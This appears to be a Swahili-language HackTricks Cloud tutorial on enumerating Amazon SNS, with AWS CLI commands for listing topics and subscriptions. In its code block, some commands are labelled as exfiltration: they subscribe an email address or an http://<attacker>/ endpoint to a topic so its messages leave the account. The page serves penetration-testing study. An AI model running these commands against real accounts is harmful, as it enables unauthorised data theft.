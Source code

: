 # AWS - SNS Enum

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## SNS

Amazon Simple Notification Service (Amazon SNS) inaelezwa kama **huduma ya ujumbe iliyosimamiwa kabisa**. Inasaidia aina zote za **mawasiliano kutoka kwa programu hadi programu** (A2A) na **kutoka kwa programu hadi mtu** (A2P).

Vipengele muhimu kwa mawasiliano ya A2A ni pamoja na **mifumo ya kuchapisha/kusikiliza (pub/sub)**. Mifumo hii inaleta **mada**, muhimu kwa kuwezesha ujumbe wa **juu wa kiasi, msukumo wa msingi, kutoka kwa wengi hadi wengi**. Kipengele hiki ni cha faida sana katika mazingira yanayohusisha mifumo iliyosambazwa, huduma ndogo ndogo, na miundo ya seva inayotumia matukio. Kwa kutumia mada hizi, mifumo ya wachapishaji inaweza kusambaza ujumbe kwa ufanisi kwa **aina mbalimbali za mifumo ya wasikilizaji**, ikirahisisha mfano wa ujumbe wa fanout.

### **Tofauti na SQS**

**SQS** ni huduma inayotegemea **mkururo wa foleni** ambayo inaruhusu mawasiliano ya moja kwa moja, ikisimamia ujumbe kwa **mtumiaji mmoja**. Inatoa **utoaji wa angalau mara moja**, inasaidia foleni za kawaida na za FIFO, na inaruhusu uhifadhi wa ujumbe kwa kujaribu tena na usindikaji uliocheleweshwa.\
Kwa upande mwingine, **SNS** ni huduma inayotegemea **kuchapisha/kusikiliza**, ikiruhusu mawasiliano ya **moja kwa wengi** kwa kutangaza ujumbe kwa **wasikilizaji wengi** kwa wakati mmoja. Inasaidia **vituo mbalimbali vya usajili kama vile barua pepe, SMS, kazi za Lambda, na HTTP/HTTPS**, na inatoa mifumo ya kufuta kwa utoaji wa ujumbe uliolengwa.\
Ingawa huduma zote mbili zinaruhusu kutenganisha kati ya vipengele katika mifumo iliyosambazwa, SQS inazingatia mawasiliano ya foleni, na SNS inasisitiza mifano ya mawasiliano ya matukio, fan-out. 

### **Uorodheshaji**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Tafadhali kumbuka kwamba ikiwa **mada ni aina ya FIFO**, watumiaji waandikishaji wanaotumia itifaki ya **SQS** tu ndio wanaweza kutumika (HTTP au HTTPS hawawezi kutumika).

Pia, hata kama `--topic-arn` ina mkoa hakikisha unataja mkoa sahihi katika **`--region`** au utapata kosa linaloonekana kama huna ufikiaji lakini tatizo ni mkoa.
{% endhint %}

#### Upatikanaji usiothibitishwa

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Kupandisha Hadhi

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Baada ya Uvamizi

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Uthabiti

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Marejeo

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

<details>

<summary><strong>Jifunze kuhusu kuvamia AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kuvamia kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
